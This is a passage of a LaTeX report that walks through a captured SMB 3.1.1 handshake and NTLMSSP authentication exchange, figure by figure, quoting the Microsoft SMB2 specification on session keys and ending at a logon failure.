	
\includegraphics[scale=0.22]{images/smb3.png}
	\centering
	\caption{Viewing the second \texttt{Negotionate Protocol Request}}
\end{figure}\abc
The server follows up by specifying the preferred dialect from the client’s dialect array—which in this case is \texttt{SMB 3.1.1}—and additionally updates the listed capabilities based on the selected version. This version will now be used for the connection, as shown in Figure 10. \cite{noauthor_ms-smb2_2024} \newpage
\begin{figure}[ht]
	
\includegraphics[scale=0.22]{images/smb4.png}
	\centering
	\caption{Viewing the second \texttt{Negotionate Protocol Reponse}}
\end{figure}\abc
After a dialect and capabilities have been selected, a \texttt{Session Setup Request} is sent, initiating the authentication process using the \texttt{GSS-API} (Generic Security Service Application Program Interface). This is used alongside \texttt{NTLMSSP}, which stands for NT LAN Manager Security Support Provider—a binary messaging protocol developed by Microsoft to facilitate NTLM challenge-response authentication and to negotiate integrity and confidentiality options. \cite{noauthor_ms-smb2_2021-1,noauthor_ntlmssp_2020}
Within the request, various flags are set to determine the supported \texttt{NTLMSSP} options for authentication, as shown in Figure 11.
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/smb5.png}
	\centering
	\caption{Viewing the Session Setup Request}
\end{figure}\abc \newpage\abc
This is followed by a \texttt{Session Setup Response}, in which the \texttt{NT Status} field is set to \texttt{STATUS\_MORE\_PROCESSING\_REQUIRED}, indicating that guest access is disabled and authentication is required to connect to this \texttt{SMB} share, as depicted in Figure 12.
\begin{figure}[h]
	
\includegraphics[scale=0.18]{images/smb6.png}
	\centering
	\caption{Viewing the Session Setup Reponse}
\end{figure}\abc
Next, another \texttt{Session Setup Request} packet is sent by the client, with the \texttt{NTLM Message Type} field set to \texttt{NTLMSSP\_AUTH}. This packet also includes fields such as the domain name, user name, and—most importantly—the session key, which is required when using \texttt{GSS-API} authentication. This requirement is specified on pages 232–233 of the SMB specification as follows:\abc
\say{Session.SessionKey MUST be set to the first 16 bytes of the cryptographic key queried from the GSS protocol for this authenticated context. If the cryptographic key is less than 16 bytes, it is right-padded with zero bytes. If Connection.Dialect is “3.1.1” and Connection.CipherId is AES-256-CCM or AES-256-GCM, Session.FullSessionKey MUST be set to the cryptographic key as queried from the GSS protocol for this authenticated context. For information about how this is calculated for Kerberos authentication using Generic Security Service Application Programming Interface (GSS-API), see [MS-KILE] section 3.1.1.2. For information about how this is calculated for NTLM authentication using GSS-API, see [MS-NLMP] section 3.1.5.1.}\abc \cite{noauthor_ms-smb2_2023, microsoft_corporation_server_2024}
The mentioned fields are annotated in Figure 13 below.
\begin{figure}[h]
	
\includegraphics[scale=0.18]{images/smb7.png}
	\centering
	\caption{Viewing the secound Session Setup Request}
\end{figure}\abc \newpage \abc
Since we authenticated with incorrect credentials in the captured attempt, a \texttt{Session Setup Response} is returned with the \texttt{NT Status} field in the header set to \texttt{STATUS\_LOGON\_FAILURE}, as shown in Figure 14.
\begin{figure}[h]
